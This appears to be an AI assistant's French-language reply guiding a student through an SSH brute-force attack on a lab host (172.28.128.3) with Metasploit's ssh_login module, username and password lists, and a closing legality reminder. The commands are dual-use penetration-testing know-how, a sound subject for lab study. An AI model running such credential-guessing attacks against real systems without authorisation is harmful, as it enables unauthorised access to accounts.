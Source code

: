 Merci d'avoir partagé votre document et vos progrès ! Il semble que vous ayez trouvé un répertoire accessible par Metasploit, ce qui est un excellent pas en avant. Maintenant que vous avez identifié un répertoire où Metasploit peut accéder aux fichiers nécessaires, vous pouvez procéder à la configuration de vos attaques, notamment la connexion SSH.

Voici comment vous pouvez procéder pour utiliser Metasploit afin de vous connecter via SSH en utilisant les fichiers de noms d'utilisateurs et de mots de passe que vous avez préparés :

### Étape 1: Déplacement des fichiers dans le répertoire accessible
Puisque Metasploit a accès au répertoire `/snap/metasploit-framework/`, déplacez vos fichiers `usernames.txt` et `passwords.txt` dans ce répertoire.

1. **Déplacez les fichiers**:
   ```bash
   sudo mv /home/eleve/usernames.txt /snap/metasploit-framework/
   sudo mv /home/eleve/passwords.txt /snap/metasploit-framework/
   ```

2. **Assurez-vous que les fichiers sont dans le bon répertoire**:
   ```bash
   ls -l /snap/metasploit-framework/usernames.txt
   ls -l /snap/metasploit-framework/passwords.txt
   ```

### Étape 2: Configuration de Metasploit
Démarrez Metasploit et configurez-le pour utiliser les fichiers dans le nouveau répertoire.

1. **Lancez Metasploit**:
   ```bash
   msfconsole
   ```

2. **Configurez le module de scanner SSH**:
   ```bash
   use auxiliary/scanner/ssh/ssh_login
   set RHOSTS 172.28.128.3
   set USER_FILE /snap/metasploit-framework/usernames.txt
   set PASS_FILE /snap/metasploit-framework/passwords.txt
   set VERBOSE true
   ```

### Étape 3: Exécution du Module
Maintenant que tout est configuré, vous pouvez lancer le module pour tenter de vous connecter via SSH.

```bash
run
```

Cela lancera l'attaque par force brute en utilisant les noms d'utilisateurs et mots de passe que vous avez spécifiés. Gardez un œil sur la sortie de la console pour voir si des identifiants valides sont trouvés.

### Conseils de Sécurité
- **Permissions**: Assurez-vous que les permissions des fichiers sont correctes pour éviter l'accès non autorisé.
- **Légalité**: Confirmez que vous avez l'autorisation de tester la machine cible. L'utilisation de ces outils sur des réseaux ou des machines sans consentement est illégale.

Avec ces étapes, vous devriez être en mesure de réaliser votre test de pénétration SSH avec Metasploit. Si vous rencontrez des problèmes, n'hésitez pas à vérifier les logs de Metasploit pour plus d'informations sur les erreurs éventuelles.
